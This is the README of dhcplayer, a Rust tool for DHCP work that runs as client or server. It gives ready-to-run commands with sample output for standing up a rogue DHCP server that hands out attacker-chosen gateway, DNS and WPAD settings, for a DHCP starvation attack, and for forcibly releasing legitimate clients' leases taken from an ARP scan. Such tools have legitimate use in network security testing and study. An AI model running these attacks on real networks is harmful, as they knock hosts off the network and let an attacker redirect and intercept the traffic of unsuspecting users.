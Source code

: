 # DHCPlayer

[![Crates.io](https://img.shields.io/crates/v/dhcplayer)](https://crates.io/crates/dhcplayer)
[![Language Rust](https://img.shields.io/badge/Language-Rust-blue)](https://www.rust-lang.org/)


dhcplayer is a tool to perform several actions using the DHCP protocol, both as client or server. It allows you to perform simple DHCP requests but also perform some known attacks like DHCP starvation or setting a rogue DHCP server.


In order to run dhcplayer, you need `root` privileges to be able to create raw sockets.


## Installation

To install:
```
$ cargo install dhcplayer
```

## DHCP Server

You can create a DHCP server with the `server` command. In the server you can use the parameters to configure the following options:

- Available IP Range
- Broadcast Address
- Network Mask
- Router/Gateway IP (by default your IP)
- DNS server IP(s) (by default your IP)
- WPAD file (disabled by default)
- NetBIOS/WINS name server (disabled by default)

```bash
$ sudo dhcplayer server -I eth0 -v --dns 192.168.122.5 --wpad http://wpadserver.local/wpad.dat --netbios 192.168.122.4 --start-ip 192.168.122.60 --end-ip 192.168.122.70
INFO - IP pool: 192.168.122.61-192.168.122.69
INFO - Mask: 255.255.255.0
INFO - Broadcast: 192.168.122.70
INFO - DHCP: 192.168.122.81
INFO - DNS: [192.168.122.5]
INFO - Router: [192.168.122.81]
INFO - Netbios: [192.168.122.4]
INFO - WPAD: http://wpadserver.local/wpad.dat
INFO - DISCOVER from 52:54:00:97:9a:b7
INFO - Offer 192.168.122.69
INFO - REQUEST from 52:54:00:97:9a:b7
INFO - Requested IP 192.168.122.69
INFO - ACK to 192.168.122.69 for 52:54:00:97:9a:b7

```

## Starvation Attack

You can launch a DHCP Starvation attack against DHCP servers by using the `starv` command.

The `starv` command will request all the available IP addresses offered by the DHCP servers in the network. If you want to just target specific servers, you can use the `servers` parameter.

```bash
$ sudo dhcplayer starv -I eth0 --server 192.168.122.1
192.168.122.80 90:25:4f:b0:51:04
192.168.122.118 eb:a3:fd:f4:26:d5
192.168.122.134 c6:f3:bd:ae:d9:ae
...
```

To stop the attack you need to press Ctrl-C. When the attack is stopped, by default, all the acquired IPs will be released. In case you don't want to release them, you can use the `-n/--no-release` flag.


## Discover

The discover command allows you to discover an request the IPs available from a DHCP server.

In the most basic use the command will request an IP from any DHCP server. If you want to request an specific server, you can use the `server` parameter.

```bash
$ sudo dhcplayer discover -I eth0
ACK received from 192.168.122.81
Acquired IP: 192.168.122.67
Client MAC: 52:54:00:97:9a:b7
Options:
[54] DHCP Server ID: 192.168.122.81
[51] IP Address Lease Time: 3600
[58] Renewal Time: 1800
[59] Rebinding Time: 3150
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.70
[3] Router: 192.168.122.81
[6] Domain Server: 192.168.122.5

```

### Discover DHCP servers

Moreover, you can send DISCOVER messages without requesting the IP addresses. You can do this with the `-n/--no-request` flag. In that case, dhcplayer will listen for all the offers made by all the DHCP servers, if there are more than one in the network. 

It can be useful to specify `--options all` to request all the information from a DHCP server.

```bash
$ sudo dhcplayer discover -I eth0 -n --options all

OFFER received from 192.168.122.1
Offered IP: 192.168.122.82
Client MAC: 52:54:00:97:9a:b7
DHCP Server: 192.168.122.1
Options:
[54] DHCP Server ID: 192.168.122.1
[51] IP Address Lease Time: 3600
[58] Renewal Time: 1800
[59] Rebinding Time: 3150
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.255
[3] Router: 192.168.122.1
[6] Domain Server: 192.168.122.1

```

### DNS Dynamic Update

You can ask the DHCP server to create a new DNS A record with the `--dns-update` flag based on the hostname (`-H/--hostname`) or the FQDN (Fully Qualified Domain Name) (`--fqdn`). If you don't specify hostname nor FQDN, the DNS record will be deleted.

The server should return the `server-update` flag in Client FQDN (81) if the update was successful.

```bash
sudo dhcplayer discover -I eth2 --dns-update -H test # Update based on hostname
sudo dhcplayer discover -I eth2 --dns-update --fqdn test.contoso.local # Update based on fqdn
sudo dhcplayer discover -I eth2 --dns-update # Delete DNS record
```

```bash
$ sudo dhcplayer discover -I eth2 --dns-update -H test
ACK received from 0.0.0.0
Acquired IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
Options:
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[1] Subnet Mask: 255.255.255.0
[81] Client FQDN: flags: 0x1 (server-update) A-result: 255 PTR-result: 0 
[3] Router: 192.168.100.2
[15] Domain Name: contoso.local
[6] Domain Server: 192.168.100.2

$ nslookup test.contoso.local 192.168.100.2
Server:		192.168.100.2
Address:	192.168.100.2#53

Name:	test.contoso.local
Address: 192.168.100.3

$ sudo dhcplayer discover -I eth2 --dns-update
ACK received from 0.0.0.0
Acquired IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
Options:
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[1] Subnet Mask: 255.255.255.0
[81] Client FQDN: flags: 0x1 (server-update) A-result: 255 PTR-result: 0 
[3] Router: 192.168.100.2
[15] Domain Name: contoso.local
[6] Domain Server: 192.168.100.2

$ nslookup test.contoso.local 192.168.100.2
Server:		192.168.100.2
Address:	192.168.100.2#53

** server can't find test.contoso.local: NXDOMAIN
```

### Inform

Additionally, you can send an INFORM petition instead of DISCOVER by using the `-i/--inform` flag of the `discover` command.

```bash
$ sudo dhcplayer discover -I eth0 -i --options wpad,dns --server 192.168.122.1 -v
INFO - INFORM sent - Client MAC 52:54:00:97:9a:b7

ACK received from 192.168.122.1
Acquired IP: 0.0.0.0
Client MAC: 52:54:00:97:9a:b7
Options:
[54] DHCP Server ID: 192.168.122.1
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.255
[6] Domain Server: 192.168.122.1

```

## Release

You can use the release `command` to release IPs that were acquired by you or other peer. For this you need to specify the IP and the MAC address of the client you want to release.

You can specify the pairs IP/MAC with the format `<ip>-<mac>`. You can indicate the pairs in the command line, or pass them through a file or stdin.

```bash
$ sudo dhcplayer release -I eth2 --server 192.168.100.2 192.168.100.5-ca:2b:d1:21:17:86 192.168.100.7-fe:38:4e:46:95:d6 -v
INFO - RELEASE 192.168.100.5 ca:2b:d1:21:17:86
INFO - RELEASE 192.168.100.7 fe:38:4e:46:95:d6
```


You can also combine this command with an ARP scan to release the IPs of legit clients. The release clients probably continue using its IPs, but those are free to be assigned to other peer, which may cause some problems in the network.

```
$ sudo arplayer scan -I eth2 -w 10 | sudo dhcplayer release -I eth2 --server 192.168.100.2 -v
INFO - RELEASE 192.168.100.1 52:54:00:5b:49:5d
INFO - RELEASE 192.168.100.2 52:54:00:0b:75:57
INFO - RELEASE 192.168.100.7 52:54:00:a4:8c:f2
INFO - RELEASE 192.168.100.5 52:54:00:76:87:bb
```



## Disclaimer

Please, don't use this tool for bad things. I won't assume any responsibility for your actions with this tool.
